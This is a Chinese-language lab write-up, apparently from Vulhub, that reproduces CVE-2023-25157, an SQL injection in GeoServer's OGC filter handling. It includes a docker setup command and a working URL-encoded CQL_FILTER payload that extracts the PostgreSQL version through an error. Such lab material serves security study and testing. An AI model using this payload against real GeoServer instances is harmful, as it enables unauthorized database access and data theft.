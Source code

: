 # GeoServer OGC Filter SQL注入漏洞 CVE-2023-25157

## 漏洞描述

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：

- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 漏洞环境

Vulhub执行如下命令启动一个SeoServer 2.22.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/geoserver`即可查看到GeoServer的首页。

![image-20230619102046107](../Web应用漏洞/images/image-20230619102046107.png)

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

利用这些已知参数，发送如下URL即可触发SQL注入漏洞（URL Encode）：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![image-20230619102139101](../Web应用漏洞/images/image-20230619102139101.png)

可见，已经使用SQL注入获取到了目标服务器PostgreSQL的版本。